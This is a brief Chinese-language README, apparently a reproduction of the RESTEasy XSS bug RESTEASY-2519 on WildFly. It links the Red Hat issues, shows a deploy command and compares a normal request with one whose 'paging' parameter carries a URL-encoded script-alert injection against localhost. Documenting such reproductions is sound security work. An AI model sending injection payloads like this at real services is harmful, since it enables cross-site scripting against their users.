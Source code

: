 ## 相关issues

* https://issues.redhat.com/browse/RESTEASY-2519
* [WFLY-7419 Include RESTEasy WADL module - Red Hat Issue Tracker](https://issues.redhat.com/browse/WFLY-7419)


## 部署至wildfly

```bash
[standalone@localhost:9990 /] deploy resteasy-xss-wildfly/target/resteasy-wildfly.war --force
```

## RESTEASY-2519

正常访问：

```bash
$ http "localhost:8080/resteasy-wildfly/rest/users?paging=1"
```

访问有问题的服务：

```bash
$ http "http://localhost:8080/resteasy-wildfly/rest/users?paging=0%2c-1sp137%3Cscript%3Ealert(1)%3C%2fscript%3Emzx4u"
```

